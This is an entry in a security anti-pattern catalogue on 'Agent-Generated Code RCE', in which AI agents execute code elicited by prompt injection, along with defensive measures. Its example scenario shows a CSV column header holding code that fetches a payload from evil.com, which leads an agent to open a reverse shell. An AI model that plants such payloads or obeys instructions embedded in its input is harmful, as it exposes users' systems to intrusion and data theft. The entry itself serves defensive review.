

# Agent-Generated Code RCE

**Also known as:** Vibe-Coding RCE, ASI05, Unexpected Code Execution

**Category:** Anti-Patterns  
**Status in practice:** deprecated

## Intent

Anti-pattern: let the agent author and execute code in its sandbox without distinguishing legitimate task code from injection-induced code.

## Context

An agent has a code-execution tool (Python REPL, sandbox, container) and routinely generates code to solve problems — data analysis, document processing, computation. The execution surface is the same regardless of whether the code came from the agent's own planning or was elicited by user input or retrieved content.

## Problem

An attacker who can plant instructions in any reachable input — a document the agent processes, a tool result it reads — can elicit malicious code from the agent. The agent generates and executes it through the same path as legitimate code. Result: data exfiltration, reverse shells, sandbox escape, all initiated by the agent itself. The audit log shows agent-authored code running under agent identity; classical RCE detection sees nothing exotic.

## Forces

- Code execution is the most useful capability an agent can have; removing it is a huge utility loss.
- Distinguishing 'agent's own plan' code from 'user-elicited' code is hard at the prompt level.
- Sandboxes are imperfect — even good ones leak with sufficient creativity in payload.

## Therefore

Therefore: harden the sandbox aggressively, separate planning from execution surfaces, restrict outbound from the sandbox, and require human confirmation before executing code derived from untrusted input.

## Solution

Don't run agent-authored code with the same trust regardless of origin. Use sandbox-isolation with no outbound network unless allow-listed. Separate planning (which can be informed by untrusted input) from execution (which should not be). For high-risk inputs, require human-in-the-loop confirmation before execute. Pair with prompt-injection-defense.

## Structure

```
Anti-pattern: untrusted input -> agent plans and writes code -> same execution path for all code -> exfiltration or sandbox escape. Corrected: untrusted input -> planner -> origin-aware gate (human confirm for high-risk) -> sandbox with allow-listed network -> execute.
```

## Diagram



## Example scenario

A data-analysis agent ingests a CSV uploaded by an attacker. The CSV contains a column header with the text 'pandas.read_csv("https://evil.com/payload"); import socket; ...'. The agent treats the header as instruction-bearing context and generates Python code that pulls and executes the attacker's payload. The sandbox has outbound HTTP. Reverse shell established. Postmortem: input from the CSV was treated as instruction-input to the planner that produced the executed code.

## Consequences

**Benefits**

- Short-term: one execution path for all agent code is simple to build and lets the agent solve tasks without friction or approval steps.
- Naming it lets a team require origin-aware execution gating before any code-writing agent touches untrusted input.

**Liabilities**

- Indirect prompt injection becomes remote code execution by construction.
- Audit logs show agent-authored, agent-identity code — no classical RCE indicator fires.
- Sandbox escape, exfiltration, and reverse-shell payloads all use the same execution path as legitimate code.

## Failure modes

- Injected payload execution — a planted instruction in a processed document makes the agent write code that opens a reverse shell, and the sandbox runs it like any task code.
- Silent exfiltration — agent-authored code reads data and sends it out over an open network path, and the audit log shows only normal agent activity.
- Undetectable origin — the security team reviews the incident and finds code running under the agent identity, with nothing to tell injected code from task code.

## What this pattern constrains

No useful constraint; the missing constraint is origin-aware execution gating.

## Applicability

**Use when**

- Never. Cite when reviewing code-execution-capable agents.
- Sandbox with no outbound unless allow-listed; track input provenance to execute calls.
- Require human confirmation before executing code that originated from untrusted input.

**Do not use when**

- Any code-executing agent processing user-supplied content.
- Any agent that runs code derived from RAG, email, or web fetches without provenance tracking.
- Any deployment where sandbox escape would access production systems.

## Components

- Code-execution tool — Python REPL, shell, container
- Planner surface — generates code from a mix of agent reasoning and untrusted input
- Sandbox — the execution environment, which may have outbound and FS reach
- Missing origin tracker — would tag generated code by input provenance

## Tools

- Sandbox runtime — the execution container (gVisor, Firecracker, browser sandbox)
- Outbound allow-list — the missing destination filter on sandbox network
- Provenance tracker — the missing tag that distinguishes agent-planned code from input-elicited code

## Evaluation metrics

- Indirect-injection-to-execution rate — fraction of injection red-team prompts that result in code execution
- Sandbox-outbound-violation count — outbound connections from sandbox per period
- Origin-aware-execution coverage — share of executed code with traced input provenance
- Human-confirmation gate trigger rate — frequency that high-risk-provenance code paused for approval

## Known uses

- **[OWASP Top 10 for Agentic Applications 2026 — ASI05](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)** _available_
- **[Public reports of indirect-prompt-injection leading to code-execution via Claude Computer Use, Cursor, Aider 2024-2026](https://hiddenlayer.com/innovation-hub/indirect-prompt-injection-of-claude-computer-use/)** _available_

## Related patterns

- _complements_ **Goal Hijacking**
- _alternative-to_ **Sandbox Isolation**
- _specialises_ **Authorized Tool Misuse**
- _complements_ **Prompt Injection Defense**
- _complements_ **Vibe-Coding Without Security Review**

## References

- [OWASP Top 10 for Agentic Applications 2026 — ASI05](https://neuraltrust.ai/blog/owasp-top-10-for-agentic-applications-2026) — 2026
- [Giskard — OWASP Top 10 for Agentic Applications 2026](https://www.giskard.ai/knowledge/owasp-top-10-for-agentic-application-2026) — 2026
